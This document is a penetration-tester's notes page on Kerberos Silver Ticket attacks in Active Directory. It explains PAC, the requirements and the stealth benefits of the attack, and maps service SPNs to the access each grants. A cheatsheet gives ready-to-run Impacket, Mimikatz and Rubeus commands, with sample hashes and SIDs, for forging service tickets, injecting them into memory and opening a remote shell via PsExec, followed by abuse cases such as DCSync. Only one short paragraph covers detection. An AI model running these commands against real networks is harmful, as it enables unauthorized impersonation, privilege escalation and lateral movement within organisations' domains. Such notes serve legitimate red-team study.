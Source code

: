 # Silver Tickets

Silver tickets are the Ticket Granting Service (TGSs) as part of Kerberos, see [[Active-Directory-Kerberos-Authentication-Defined]] and it one of many techniques of [[Attacking-Kerberos]]. It is a ticket that grants ticket for a specific target, which **DOES NOT requires compromising the KRBTGT**, maybe try [[Mimikatz-Cheatsheet]]. Tim Medin: *"In a Silver Ticket attack, we force a Service ticket with a custom PAC (to escalate privileges). This Service Ticket is forged using the Target LT key (NTLM Service Hash). As we don't have the KDC LT key, we cannot create a valid, complete PAC signature. However, PAC validation is usually disabled, which means there is an opportunity."*

PAC (Privilege Attribute Certificate) is an extension of Kerberos protocol this is transmitted as a summary in the TGT and TGS. It specifies access of an account.

#### Words of Warning

*When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.* - [thehackerrecipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

## Detecting Silver Tickets:

[adsecurity.org](https://adsecurity.org/?p=2011): *The best chance of detecting Silver Tickets is to monitor Windows security events on workstations, servers, and Domain Controllers for [logon/logoff events with anomalies in the domain field including the field being blank or null](https://adsecurity.org/?p=1515).*

#### Considerations

Some Service Accounts will not verify the second signature - SQL servers, but not Web servers! This article is notes on the subject of Silver Tickets:

Server Portion: - Server gets this
- User details
- Session Key (same as Users)
- PAC
- Signed with Target LT key
- Signed with KDC LT key
- Encrypted with service account's NTLM Hash

User Portion: - User gets this
- Validity time
- Session Key (same as Server's)
Encrypted with the TGT session key

#### Requirement:

- Generated TGSs is signed by the machine account of the host we are targeting
- Silver Tickets only have access to the password hash of the machine account of the server we are attacking, therefore only impersonate users on that machine.
- The Silver Ticket's scope is limited to whatever service is targeted on the specific server.
- Forging TGS has no associated TGT, therefore Domain Controller was never contacted
	- This means it is more stealthier as logging occur on the machine not on the DC for Blue Team 
- Permissions are determined through SID
	- Non-existent users must have relevant SIDs, i.e SID that indicated the users to be in host's local administrators group 
 - Machine Account Passwords are usually rotated every 30 days
	 - Even so we can leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account

#### Silver Tickets Benefits

[netwrix](https://blog.netwrix.com/2022/08/31/impersonating-service-accounts-with-silver-tickets/) considers the benefits of Silver Tickets as of 2022 to be: 
- The attacker is not required to authenticate the account to the domain controller to obtain the forged TGS, so they can proceed without creating network traffic and event logs to avoid detection.
- A Silver Ticket can be created for any user account, even fictitious accounts. This allows the attacker to exploit the service account without risking detection, which could result in a password reset and loss of access.
- The Privileged Attribute Certificate (PAC) in the TGS ticket can also be manipulated to elevate the account’s access to Domain In most cases, the PAC is not validated against the domain controller when the TGS is provided.

##### Available Services

Service Type | Service Silver Tickets
--- | ---
WMI | HOST, RPCSS
PowerShell Remoting | HOST, HTTP, OS dependent: WSMAN and RPCSS
WinRM | HOST, HTTP - sometimes just WINRM
Scheduled Tasks | HOST
Windows File Share, also psexec | CIFS
LDAP operations include DCSync | LDAP
Windows Remote Server Administration Tools | RPCSS, LDAP, CIFS
Golden Tickets | krbtgt

[[Rubeus-Cheatsheet]] - ask for all `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`
#### Cheatsheet

[[Impacket-Cheatsheet]]
```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# Hacktricks example:
python ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park -spn cifs/labwws02.jurassic.park stegosaurus
# Export the ccache file as a env variable for later use
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache 
# psexec in!
python psexec.py jurassic.park/stegosaurus@labwws02.jurassic.park -k -no-pass
```

[[Mimikatz-Cheatsheet]]
```c
//  kerberos::golden # even though it is silver we us the golden method
// /sid:OfCurrentUser
// /target:ServerOfCrackedServiceTicket
// /service:TypeOfService
// /rc4:NTLMHashOfService - different hashes detailed below
// /user:UserThatWillAppearInsecurityLogs
// /id:RIDtoImpersonate
// /ptt # mimikatz will inject into memory

// Optional flags - adsecurity.org

// /groups (optional) – group RIDs the user is a member of (the first is the primary group) ; default: 513,512,520,518,519 for the well-known Administrator’s groups (listed below).

// /ticket (optional) – provide a path and name for saving the Golden Ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use

// /id (optional) – user RID. Mimikatz default is 500 (the default Administrator account RID).

// /startoffset (optional) – the start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
// /endin (optional) – ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).

// /renewmax(optional) – maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).

mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin

// with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

// with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

// with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

// Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
// Obtain a shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```

|GID|Group Name|
|---|---|
|512|Domain Admins|
|513|Domain Users|
|518|Schema Admins|
|519|Enterprise Admins|
|520|Group Policy Creator Owners|

## Use cases to Abuse Service Tickets

CIFS = access `C$` and `ADMIN$` SMB Shares if exposed
HOST = Scheduled Tasks Lateral Movement, Arbitrary Commands
HOST + RPCSS = execute WMI on target machine local and remote 
HOST + WSMAN = WinRm access with optional Remote PowerShell Session
LDAP = [[AD-DCSync-Attack]]
## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)
[Kerberos and Attacks 101 by Tim Medin](https://www.youtube.com/watch?v=9lOFpUA25Nk)
[iredteam Silver Tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
[thehacker.recipes - Silver Tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)
[HackTricks Silver tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)
[Hackndo - Golden and Silver tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)
[adsecurity.org](https://adsecurity.org/?p=2011)
[netwrix](https://blog.netwrix.com/2022/08/31/impersonating-service-accounts-with-silver-tickets/)